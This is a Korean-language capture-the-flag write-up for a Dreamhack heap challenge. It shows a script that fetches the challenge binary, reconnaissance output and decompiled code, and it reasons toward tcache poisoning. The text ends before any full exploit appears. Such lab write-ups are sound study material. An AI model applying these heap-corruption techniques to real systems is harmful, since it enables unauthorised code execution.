







---

#### ⛳[dh-heap-aeg](https://dreamhack.io/wargame/challenges/107)

취약한 바이너리를 자동으로 생성하는 프로그램이 실행되고 있습니다.
당신만의 Automatic Exploit Generation 스크립트를 제작해 플래그를 획득하세요!

20 스테이지로 이루어져 있습니다.
문제 당 timeout은 10초 입니다.
다음 스테이지로 넘어가기 위해서는, /tmp/subflag_*.txt에 존재하는 스테이지 별 flag를 인증하시면 됩니다.
마지막 스테이지를 성공하면, 문제의 원본 플래그가 출력됩니다.
원본 플래그는 DH{...}, 스테이지 별 플래그는 SUBFLAG{...}의 포맷을 갖추고 있습니다.

---

## 1. recon

별도의 바이너리, 디버깅 환경이 포함되지 않은 워게임이므로 nc로 원격지에 접속해보면 아래와 같은 반복이 스테이지 한개로 유추된다.

- y 입력
- base64encoded 바이너리 출력(추출 및 취약점 분석 필요 대상 바이너리)
- chunk to modify / data / comment 입력 (heap overflow 추정)
- GOOD~~BYE~~(실패 시 추정)
- TOoooOoo late.. (SIG: 14 Line: 998 ) (언급된 문제 당 timeout)

```python
(pwn-env) dani@Dani:.../wargame-pwn/dh-heap-aeg$ nc host3.dreamhack.games 9183

 Ubuntu 20.0 Later
- H o w 2 H a e g -

Are u ready (y/n) ? y
-----------------STAGE 1-----------------
----------BINARY(base64encoded)----------
(생략)
---------------BINARY FIN----------------
[*] welcome to HAEG!
[+] select chunk to modify(idx) : 1
[+] input data : 1
[+] input comment : 1
GOOD~~BYE~~
TOoooOoo late.. (SIG: 14 Line: 998 )

```

따라서 아래와 같이 원격지에 접속하여 readall 함수로 바이트를 받은 뒤, 로컬에 chall.elf로 추출하는 extract.py를 작성해볼 수 있다.

```python
#!/usr/bin/env python3
# Stage 2: send 'y', observe what the server delivers (binary format, prompts).
import socket, time
import base64, re

HOST = "host3.dreamhack.games"
PORT = 9183
SP   = "/mnt/c/Users/jshrb/Desktop/wargame-pwn/dh-heap-aeg"
OUT  = SP + "/recon.log"

def readall(s, seconds):
    s.settimeout(3) #recv의 timeout을 3초로 설정
    data = b""
    deadline = time.time() + seconds #주어진 시간 범위 내에서 -
    while time.time() < deadline:
        try:
            c = s.recv(65536) # - 받을 수 있는 최대 크기 정보를 받음
        except socket.timeout:
            break
        if not c:
            break
        data += c
        if len(data) > 8_000_000:
            break
    return data

buf = b""
s = socket.create_connection((HOST, PORT), timeout=10)
buf += readall(s, 5)          # banner + "Are u ready"
s.sendall(b"y\n")
buf += readall(s, 25)         # whatever comes after y

with open(OUT, "wb") as f:
    f.write(buf)

print("=== total bytes:", len(buf)) # 디버깅용 출력
txt = buf.decode("utf-8", "replace")
print("=== preview (first 2500 chars) ===")
print(txt[:2500])
print("=== ... preview (last 800 chars) ===")
print(txt[-800:])

m = re.search(r"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", txt, re.S)
b64 = m.group(1)
b64 = re.sub(r"\s+", "", b64)
elf = base64.b64decode(b64)
open(SP + "/chall.elf", "wb").write(elf)
print("ELF bytes:", len(elf), "magic:", elf[:4])
```

chall.elf에 대한 정찰은 아래와 같다.

<details>
<summary markdown="span">rabin2 -I chall.elf(file, checksec)</summary>
<div class="toggle-content" markdown="1">

```python
(pwn-env) dani@Dani:.../wargame-pwn/dh-heap-aeg$ rabin2 -I chall.elf
arch     x86
baddr    0x400000
binsz    27616
bintype  elf
bits     64
canary   true
injprot  false
class    ELF64
compiler GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  false
lsyms    true
machine  AMD x86-64 architecture
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
uncaps   true
subsys   linux
va       true

(pwn-env) dani@Dani:.../wargame-pwn/dh-heap-aeg$ pwn checksec ./chall.elf
[*] '/mnt/c/Users/jshrb/Desktop/wargame-pwn/dh-heap-aeg/chall.elf'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- SHSTK: 섀도우 스택, rop가 방어됨. 리턴주소를 일반 스택과 별도의 섀도우 스택에도 복사해둠으로써 ret 실행시 두 스택의 리턴 주소를 비교하고 다르면 예외를 발생시킴/ bof, rop 방어
- IBT:  간접 브랜치 트랙킹. 간접분기의 도착지가 반드시 endbr64로 시작해야하며 가젯 중간으로 뛰어드는 것을 막을 수 있음

</div>
</details>

<details>
<summary markdown="span">rabin2 -zz chall.elf(stings, 데이터 섹션 뿐만 아니라 바이너리 전체에서 문자열을 추출함, 전체 문자열)</summary>
<div class="toggle-content" markdown="1">

```python
(pwn-env) dani@Dani:.../wargame-pwn/dh-heap-aeg$ rabin2 -zz chall.elf
nth paddr      vaddr      len size section   type    string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000034 0x00000034 4   10             utf16le @8\r@
1   0x00000318 0x00400318 27  28   .interp   ascii   /lib64/ld-linux-x86-64.so.2
2   0x00000531 0x00400531 9   10   .dynstr   ascii   libc.so.6
3   0x0000053b 0x0040053b 4   5    .dynstr   ascii   exit
4   0x00000540 0x00400540 14  15   .dynstr   ascii   __isoc99_scanf
5   0x0000054f 0x0040054f 4   5    .dynstr   ascii   puts
6   0x00000554 0x00400554 16  17   .dynstr   ascii   __stack_chk_fail
7   0x00000565 0x00400565 5   6    .dynstr   ascii   stdin
8   0x0000056b 0x0040056b 6   7    .dynstr   ascii   printf
9   0x00000572 0x00400572 4   5    .dynstr   ascii   read
10  0x00000577 0x00400577 6   7    .dynstr   ascii   stdout
11  0x0000057e 0x0040057e 6   7    .dynstr   ascii   malloc
12  0x00000585 0x00400585 6   7    .dynstr   ascii   system
13  0x0000058c 0x0040058c 7   8    .dynstr   ascii   setvbuf
14  0x00000594 0x00400594 17  18   .dynstr   ascii   __libc_start_main
15  0x000005a6 0x004005a6 4   5    .dynstr   ascii   free
16  0x000005ab 0x004005ab 9   10   .dynstr   ascii   GLIBC_2.7
17  0x000005b5 0x004005b5 9   10   .dynstr   ascii   GLIBC_2.4
18  0x000005bf 0x004005bf 11  12   .dynstr   ascii   GLIBC_2.2.5
19  0x000005cb 0x004005cb 14  15   .dynstr   ascii   __gmon_start__
20  0x000011b5 0x004011b5 5   6    .text     ascii   H=xp@
21  0x000047c3 0x004047c3 4   5    .text     ascii   \twMH
22  0x0000489b 0x0040489b 6   7    .text     ascii   dH3\f%(
23  0x00004909 0x00404909 11  12   .text     ascii   \b[]A\A]A^A_
24  0x00005008 0x00405008 7   8    .rodata   ascii   /bin/sh
25  0x00005010 0x00405010 20  21   .rodata   ascii   [*] welcome to HAEG!
26  0x00005028 0x00405028 33  35   .rodata   ascii   [+] select chunk to modify(idx) :
27  0x0000504f 0x0040504f 16  18   .rodata   ascii   [+] input data :
28  0x00005061 0x00405061 9   10   .rodata   ascii   [*] NOP!!
29  0x0000506b 0x0040506b 19  21   .rodata   ascii   [+] input comment :
30  0x00005080 0x00405080 11  12   .rodata   ascii   GOOD~~BYE~~
31  0x000050f8 0x004050f8 4   5    .eh_frame ascii   \e\f\a\b
32  0x00005147 0x00405147 5   6    .eh_frame ascii   :*3$"
33  0x00005182 0x00405182 5   6    .eh_frame ascii   ,4\f\a\b
34  0x000051a1 0x004051a1 4   5    .eh_frame ascii   N\f\a\b
35  0x000051c1 0x004051c1 4   5    .eh_frame ascii   ~\f\a\b
36  0x00006078 0x00000000 42  43   .comment  ascii   GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
37  0x000067f9 0x00000001 10  11   .strtab   ascii   crtstuff.c
38  0x00006804 0x0000000c 20  21   .strtab   ascii   deregister_tm_clones
39  0x00006819 0x00000021 21  22   .strtab   ascii   __do_global_dtors_aux
40  0x0000682f 0x00000037 14  15   .strtab   ascii   completed.8061
41  0x0000683e 0x00000046 38  39   .strtab   ascii   __do_global_dtors_aux_fini_array_entry
42  0x00006865 0x0000006d 11  12   .strtab   ascii   frame_dummy
43  0x00006871 0x00000079 30  31   .strtab   ascii   __frame_dummy_init_array_entry
44  0x00006890 0x00000098 15  16   .strtab   ascii   prob_kl75ggrb.c
45  0x000068a0 0x000000a8 13  14   .strtab   ascii   __FRAME_END__
46  0x000068ae 0x000000b6 16  17   .strtab   ascii   __init_array_end
47  0x000068bf 0x000000c7 8   9    .strtab   ascii   _DYNAMIC
48  0x000068c8 0x000000d0 18  19   .strtab   ascii   __init_array_start
49  0x000068db 0x000000e3 18  19   .strtab   ascii   __GNU_EH_FRAME_HDR
50  0x000068ee 0x000000f6 21  22   .strtab   ascii   _GLOBAL_OFFSET_TABLE_
51  0x00006904 0x0000010c 15  16   .strtab   ascii   __libc_csu_fini
52  0x00006914 0x0000011c 17  18   .strtab   ascii   free@@GLIBC_2.2.5
53  0x00006926 0x0000012e 19  20   .strtab   ascii   stdout@@GLIBC_2.2.5
54  0x0000693a 0x00000142 17  18   .strtab   ascii   puts@@GLIBC_2.2.5
55  0x0000694c 0x00000154 18  19   .strtab   ascii   stdin@@GLIBC_2.2.5
56  0x0000695f 0x00000167 6   7    .strtab   ascii   _edata
57  0x00006966 0x0000016e 27  28   .strtab   ascii   __stack_chk_fail@@GLIBC_2.4
58  0x00006982 0x0000018a 19  20   .strtab   ascii   system@@GLIBC_2.2.5
59  0x00006996 0x0000019e 19  20   .strtab   ascii   printf@@GLIBC_2.2.5
60  0x000069aa 0x000001b2 9   10   .strtab   ascii   dummyfunc
61  0x000069b4 0x000001bc 17  18   .strtab   ascii   read@@GLIBC_2.2.5
62  0x000069c6 0x000001ce 30  31   .strtab   ascii   __libc_start_main@@GLIBC_2.2.5
63  0x000069e5 0x000001ed 12  13   .strtab   ascii   __data_start
64  0x000069f2 0x000001fa 14  15   .strtab   ascii   __gmon_start__
65  0x00006a01 0x00000209 12  13   .strtab   ascii   __dso_handle
66  0x00006a0e 0x00000216 14  15   .strtab   ascii   _IO_stdin_used
67  0x00006a1d 0x00000225 15  16   .strtab   ascii   __libc_csu_init
68  0x00006a2d 0x00000235 19  20   .strtab   ascii   malloc@@GLIBC_2.2.5
69  0x00006a41 0x00000249 23  24   .strtab   ascii   _dl_relocate_static_pie
70  0x00006a59 0x00000261 11  12   .strtab   ascii   __bss_start
71  0x00006a65 0x0000026d 4   5    .strtab   ascii   main
72  0x00006a6a 0x00000272 20  21   .strtab   ascii   setvbuf@@GLIBC_2.2.5
73  0x00006a7f 0x00000287 25  26   .strtab   ascii   __isoc99_scanf@@GLIBC_2.7
74  0x00006a99 0x000002a1 17  18   .strtab   ascii   exit@@GLIBC_2.2.5
75  0x00006aab 0x000002b3 11  12   .strtab   ascii   __TMC_END__
76  0x00006ab7 0x000002bf 9   10   .strtab   ascii   get_shell
77  0x00006ac2 0x00000001 7   8    .shstrtab ascii   .symtab
78  0x00006aca 0x00000009 7   8    .shstrtab ascii   .strtab
79  0x00006ad2 0x00000011 9   10   .shstrtab ascii   .shstrtab
80  0x00006adc 0x0000001b 7   8    .shstrtab ascii   .interp
81  0x00006ae4 0x00000023 18  19   .shstrtab ascii   .note.gnu.property
82  0x00006af7 0x00000036 18  19   .shstrtab ascii   .note.gnu.build-id
83  0x00006b0a 0x00000049 13  14   .shstrtab ascii   .note.ABI-tag
84  0x00006b18 0x00000057 9   10   .shstrtab ascii   .gnu.hash
85  0x00006b22 0x00000061 7   8    .shstrtab ascii   .dynsym
86  0x00006b2a 0x00000069 7   8    .shstrtab ascii   .dynstr
87  0x00006b32 0x00000071 12  13   .shstrtab ascii   .gnu.version
88  0x00006b3f 0x0000007e 14  15   .shstrtab ascii   .gnu.version_r
89  0x00006b4e 0x0000008d 9   10   .shstrtab ascii   .rela.dyn
90  0x00006b58 0x00000097 9   10   .shstrtab ascii   .rela.plt
91  0x00006b62 0x000000a1 5   6    .shstrtab ascii   .init
92  0x00006b68 0x000000a7 8   9    .shstrtab ascii   .plt.sec
93  0x00006b71 0x000000b0 5   6    .shstrtab ascii   .text
94  0x00006b77 0x000000b6 5   6    .shstrtab ascii   .fini
95  0x00006b7d 0x000000bc 7   8    .shstrtab ascii   .rodata
96  0x00006b85 0x000000c4 13  14   .shstrtab ascii   .eh_frame_hdr
97  0x00006b93 0x000000d2 9   10   .shstrtab ascii   .eh_frame
98  0x00006b9d 0x000000dc 11  12   .shstrtab ascii   .init_array
99  0x00006ba9 0x000000e8 11  12   .shstrtab ascii   .fini_array
100 0x00006bb5 0x000000f4 8   9    .shstrtab ascii   .dynamic
101 0x00006bbe 0x000000fd 4   5    .shstrtab ascii   .got
102 0x00006bc3 0x00000102 8   9    .shstrtab ascii   .got.plt
103 0x00006bcc 0x0000010b 5   6    .shstrtab ascii   .data
104 0x00006bd2 0x00000111 4   5    .shstrtab ascii   .bss
105 0x00006bd7 0x00000116 8   9    .shstrtab ascii   .comment
```

</div>
</details>

<details>
<summary markdown="span">rabin2 -s chall.elf(symbols 추출)</summary>
<div class="toggle-content" markdown="1">

```python
(pwn-env) dani@Dani:.../wargame-pwn/dh-heap-aeg$ rabin2 -s chall.elf
nth paddr      vaddr      bind   type   size   lib name                                   demangled
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
13  ---------- 0x00407080 GLOBAL OBJ    8          stdout
14  ---------- 0x00407090 GLOBAL OBJ    8          stdin
1   0x00000318 0x00400318 LOCAL  SECT   0          .interp
2   0x00000338 0x00400338 LOCAL  SECT   0          .note.gnu.property
3   0x00000358 0x00400358 LOCAL  SECT   0          .note.gnu.build-id
4   0x0000037c 0x0040037c LOCAL  SECT   0          .note.ABI-tag
5   0x000003a0 0x004003a0 LOCAL  SECT   0          .gnu.hash
6   0x000003c8 0x004003c8 LOCAL  SECT   0          .dynsym
7   0x00000530 0x00400530 LOCAL  SECT   0          .dynstr
8   0x000005da 0x004005da LOCAL  SECT   0          .gnu.version
9   0x000005f8 0x004005f8 LOCAL  SECT   0          .gnu.version_r
10  0x00000638 0x00400638 LOCAL  SECT   0          .rela.dyn
11  0x00000698 0x00400698 LOCAL  SECT   0          .rela.plt
12  0x00001000 0x00401000 LOCAL  SECT   0          .init
13  0x00001020 0x00401020 LOCAL  SECT   0          .plt
14  0x000010d0 0x004010d0 LOCAL  SECT   0          .plt.sec
15  0x00001170 0x00401170 LOCAL  SECT   0          .text
16  0x00004928 0x00404928 LOCAL  SECT   0          .fini
17  0x00005000 0x00405000 LOCAL  SECT   0          .rodata
18  0x0000508c 0x0040508c LOCAL  SECT   0          .eh_frame_hdr
19  0x000050e8 0x004050e8 LOCAL  SECT   0          .eh_frame
20  0x00005e10 0x00406e10 LOCAL  SECT   0          .init_array
21  0x00005e18 0x00406e18 LOCAL  SECT   0          .fini_array
22  0x00005e20 0x00406e20 LOCAL  SECT   0          .dynamic
23  0x00005ff0 0x00406ff0 LOCAL  SECT   0          .got
24  0x00006000 0x00407000 LOCAL  SECT   0          .got.plt
25  0x00006068 0x00407068 LOCAL  SECT   0          .data
26  ---------- 0x00407080 LOCAL  SECT   0          .bss
27  ---------- 0x00000000 LOCAL  SECT   0          .comment
28  ---------- 0x00000000 LOCAL  FILE   0          crtstuff.c
29  0x000011b0 0x004011b0 LOCAL  FUNC   0          deregister_tm_clones
30  0x000011e0 0x004011e0 LOCAL  FUNC   0          register_tm_clones
31  0x00001220 0x00401220 LOCAL  FUNC   0          __do_global_dtors_aux
32  ---------- 0x00407098 LOCAL  OBJ    1          completed.8061
33  0x00005e18 0x00406e18 LOCAL  OBJ    0          __do_global_dtors_aux_fini_array_entry
34  0x00001250 0x00401250 LOCAL  FUNC   0          frame_dummy
35  0x00005e10 0x00406e10 LOCAL  OBJ    0          __frame_dummy_init_array_entry
36  ---------- 0x00000000 LOCAL  FILE   0          prob_kl75ggrb.c
37  ---------- 0x00000000 LOCAL  FILE   0          crtstuff.c
38  0x00005244 0x00405244 LOCAL  OBJ    0          __FRAME_END__
39  ---------- 0x00000000 LOCAL  FILE   0
40  0x00005e18 0x00406e18 LOCAL  NOTYPE 0          __init_array_end
41  0x00005e20 0x00406e20 LOCAL  OBJ    0          _DYNAMIC
42  0x00005e10 0x00406e10 LOCAL  NOTYPE 0          __init_array_start
43  0x0000508c 0x0040508c LOCAL  NOTYPE 0          __GNU_EH_FRAME_HDR
44  0x00006000 0x00407000 LOCAL  OBJ    0          _GLOBAL_OFFSET_TABLE_
45  0x00004920 0x00404920 GLOBAL FUNC   5          __libc_csu_fini
47  ---------- 0x004070a0 GLOBAL OBJ    141792     dummy
48  ---------- 0x00407080 GLOBAL OBJ    8          stdout@@GLIBC_2.2.5
49  0x00006068 0x00407068 WEAK   NOTYPE 0          data_start
51  ---------- 0x00407090 GLOBAL OBJ    8          stdin@@GLIBC_2.2.5
52  ---------- 0x00407078 GLOBAL NOTYPE 0          _edata
53  0x00004928 0x00404928 GLOBAL FUNC   0          _fini
57  0x00001256 0x00401256 GLOBAL FUNC   13365      dummyfunc
60  0x00006068 0x00407068 GLOBAL NOTYPE 0          __data_start
62  0x00006070 0x00407070 GLOBAL OBJ    0          __dso_handle
63  0x00005000 0x00405000 GLOBAL OBJ    4          _IO_stdin_used
64  0x000046a2 0x004046a2 GLOBAL FUNC   71         init
65  0x000048b0 0x004048b0 GLOBAL FUNC   101        __libc_csu_init
67  ---------- 0x00429a80 GLOBAL NOTYPE 0          _end
68  0x000011a0 0x004011a0 GLOBAL FUNC   5          _dl_relocate_static_pie
69  0x00001170 0x00401170 GLOBAL FUNC   47         _start
70  ---------- 0x00407078 GLOBAL NOTYPE 0          __bss_start
71  0x000046e9 0x004046e9 GLOBAL FUNC   452        main
75  ---------- 0x00407078 GLOBAL OBJ    0          __TMC_END__
76  0x0000468b 0x0040468b GLOBAL FUNC   23         get_shell
77  0x00001000 0x00401000 GLOBAL FUNC   0          _init
1   0x000010d0 0x004010d0 GLOBAL FUNC   16         imp.free
2   0x000010e0 0x004010e0 GLOBAL FUNC   16         imp.puts
3   0x000010f0 0x004010f0 GLOBAL FUNC   16         imp.__stack_chk_fail
4   0x00001100 0x00401100 GLOBAL FUNC   16         imp.system
5   0x00001110 0x00401110 GLOBAL FUNC   16         imp.printf
6   0x00001120 0x00401120 GLOBAL FUNC   16         imp.read
7   ---------- ---------- GLOBAL FUNC   16         imp.__libc_start_main
8   ---------- ---------- WEAK   NOTYPE 16         imp.__gmon_start__
9   0x00001130 0x00401130 GLOBAL FUNC   16         imp.malloc
10  0x00001140 0x00401140 GLOBAL FUNC   16         imp.setvbuf
11  0x00001150 0x00401150 GLOBAL FUNC   16         imp.__isoc99_scanf
12  0x00001160 0x00401160 GLOBAL FUNC   16         imp.exit
(pwn-env) dani@Dani:.../wargame-pwn/dh-heap-aeg$
```

</div>
</details>

<details>
<summary markdown="span">rabin2 -S chall.elf(섹션 정보 추출</summary>
<div class="toggle-content" markdown="1">

```python
  0 32
(pwn-env) dani@Dani:.../wargame-pwn/dh-heap-aeg$ rabin2 -S chall.elf
nth paddr         size vaddr         vsize perm flags type        name
――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000     0x0 0x00000000      0x0 ---- 0x0   NULL
1   0x00000318    0x1c 0x00400318     0x1c -r-- 0x2   PROGBITS    .interp
2   0x00000338    0x20 0x00400338     0x20 -r-- 0x2   NOTE        .note.gnu.property
3   0x00000358    0x24 0x00400358     0x24 -r-- 0x2   NOTE        .note.gnu.build-id
4   0x0000037c    0x20 0x0040037c     0x20 -r-- 0x2   NOTE        .note.ABI-tag
5   0x000003a0    0x28 0x004003a0     0x28 -r-- 0x2   GNU_HASH    .gnu.hash
6   0x000003c8   0x168 0x004003c8    0x168 -r-- 0x2   DYNSYM      .dynsym
7   0x00000530    0xaa 0x00400530     0xaa -r-- 0x2   STRTAB      .dynstr
8   0x000005da    0x1e 0x004005da     0x1e -r-- 0x2   GNU_VERSYM  .gnu.version
9   0x000005f8    0x40 0x004005f8     0x40 -r-- 0x2   GNU_VERNEED .gnu.version_r
10  0x00000638    0x60 0x00400638     0x60 -r-- 0x2   RELA        .rela.dyn
11  0x00000698    0xf0 0x00400698     0xf0 -r-- 0x42  RELA        .rela.plt
12  0x00001000    0x1b 0x00401000     0x1b -r-x 0x6   PROGBITS    .init
13  0x00001020    0xb0 0x00401020     0xb0 -r-x 0x6   PROGBITS    .plt
14  0x000010d0    0xa0 0x004010d0     0xa0 -r-x 0x6   PROGBITS    .plt.sec
15  0x00001170  0x37b5 0x00401170   0x37b5 -r-x 0x6   PROGBITS    .text
16  0x00004928     0xd 0x00404928      0xd -r-x 0x6   PROGBITS    .fini
17  0x00005000    0x8c 0x00405000     0x8c -r-- 0x2   PROGBITS    .rodata
18  0x0000508c    0x5c 0x0040508c     0x5c -r-- 0x2   PROGBITS    .eh_frame_hdr
19  0x000050e8   0x160 0x004050e8    0x160 -r-- 0x2   PROGBITS    .eh_frame
20  0x00005e10     0x8 0x00406e10      0x8 -rw- 0x3   INIT_ARRAY  .init_array
21  0x00005e18     0x8 0x00406e18      0x8 -rw- 0x3   FINI_ARRAY  .fini_array
22  0x00005e20   0x1d0 0x00406e20    0x1d0 -rw- 0x3   DYNAMIC     .dynamic
23  0x00005ff0    0x10 0x00406ff0     0x10 -rw- 0x3   PROGBITS    .got
24  0x00006000    0x68 0x00407000     0x68 -rw- 0x3   PROGBITS    .got.plt
25  0x00006068    0x10 0x00407068     0x10 -rw- 0x3   PROGBITS    .data
26  0x00006078     0x0 0x00407080  0x22a00 -rw- 0x3   NOBITS      .bss
27  0x00006078    0x2b 0x00000000     0x2b ---- 0x30  PROGBITS    .comment
28  0x000060a8   0x750 0x00000000    0x750 ---- 0x0   SYMTAB      .symtab
29  0x000067f8   0x2c9 0x00000000    0x2c9 ---- 0x0   STRTAB      .strtab
30  0x00006ac1   0x11f 0x00000000    0x11f ---- 0x0   STRTAB      .shstrtab
```

</div>
</details>

<details>
<summary markdown="span">r2 pdf 추출(symbol 기반)</summary>
<div class="toggle-content" markdown="1">

```python
[0x00401170]> pdg @ sym.dummyfunc

void sym.dummyfunc(void)

{
    return;
}
```

```python
[0x00401170]> pdg @ sym.init

void sym.init(void)

{
    sym.imp.setvbuf(_reloc.stdin,NULL,2,0);
    sym.imp.setvbuf(_reloc.stdout,NULL,2,0);
    return;
}
```

```python
[0x00401170]> pdg @ sym.get_shell

void sym.get_shell(void)

{
    sym.imp.system("/bin/sh");
    return;
}
```

```python
[0x00401170]> pdg @ sym.main

ulong main(int argc,char **argv,char **envp)

{
    void *pvVar1;
    int64_t iVar2;
    uint in_RDI;
    int64_t in_FS_OFFSET;
    int var_384h;
    int64_t var_380h;
    void *var_378h;
    void *buf;
    void *var_368h;
    void *ptr;
    void *var_358h;
    int64_t canary;

    canary = *(in_FS_OFFSET + 0x28);
    sym.init(CONCAT44(in_RDI,argc));
    sym.dummyfunc();
    sym.imp.puts("[*] welcome to HAEG!");
    for (var_384h = 0; var_384h < 10; var_384h = var_384h + 1) {
        pvVar1 = sym.imp.malloc(0x50);
        (&buf)[var_384h] = pvVar1;
    }
    sym.imp.free(ptr);
    sym.imp.free(var_368h);
    sym.imp.free(var_358h);
    sym.imp.printf("[+] select chunk to modify(idx) : ");
    sym.imp.__isoc99_scanf(0x40504b,&var_380h);
    if (var_380h < 10) {
        sym.imp.printf("[+] input data : ");
        iVar2 = sym.imp.read(0,(&buf)[var_380h],0x49);
        if (iVar2 < 0) {
            sym.imp.puts("[*] NOP!!");
    //WARNING: Subroutine does not return
            sym.imp.exit(0);
        }
        sym.imp.malloc(0x50);
        var_378h = sym.imp.malloc(0x50);
        sym.imp.printf("[+] input comment : ");
        iVar2 = sym.imp.read(0,var_378h,0x49);
        if (iVar2 < 0) {
            sym.imp.puts("[*] NOP!!");
    //WARNING: Subroutine does not return
            sym.imp.exit(0);
        }
        sym.imp.puts("GOOD~~BYE~~");
    }
    else {
        sym.imp.puts("[*] NOP!!");
    }
    if (canary != *(in_FS_OFFSET + 0x28)) {
    //WARNING: Subroutine does not return
        sym.imp.__stack_chk_fail();
    }
    return 0;
}
```

</div>
</details>

⭐`main` 로직 핵심 구조:

- [*] welcome to HAEG!
- `malloc(0x50)` 청크 10개 생성 (idx var_384h 0~9), 포인터 배열 buf에 저장

  
- `free(arr[2]) → free(arr[1]) → free(arr[3])` (tcache 0x60 bin에 적재) 순서대로 아래 그림과 같다.

  <details>
  <summary markdown="span">free 과정</summary>
  <div class="toggle-content" markdown="1">

  

  

  

  </div>
  </details>

  - tcache[0x60] 체인: head=<strong>arr[3]</strong>→arr[1]→arr[2]

  ```python
  [0x00401170]> afvd @ sym.main
  var canary = 0xfffffffffffffff8 = (qword)-1
  var var_384h = 0xfffffffffffffc7c = -1
  var buf = 0xfffffffffffffc90 = (qword)-1
  var ptr = 0xfffffffffffffca0 = (qword)-1
  var var_368h = 0xfffffffffffffc98 = (qword)-1
  var var_358h = 0xfffffffffffffca8 = (qword)-1
  var var_380h = 0xfffffffffffffc80 = (qword)-1
  var var_378h = 0xfffffffffffffc88 = (qword)-1
  ```
- [+] select chunk to modify(idx) :
- `scanf`로 idx(var_380h) 입력(0~9 검사) `read(0, arr[idx], 0x49)` ← <strong>freed 청크에 쓰기 = tcache fd 덮어쓰는 tcache poisoning</strong> (glibc 2.31, safe-linking 없음)

  

  
- `malloc(0x50)` ×2 (2번째를 <span class="highlight-yellow">var_378h</span>에 저장) 
  - malloc #1에서 가장 최근에 free된 arr[3]이 재할당되고, tcache의 head는 poisoning 값으로 이동함

    
  - malloc #2에서 tcache에 남아있던 target이 pop 되면서 target 주소가 <strong>var_378h 에 합법적으로 저장되게 됨</strong>
- [+] input data : 
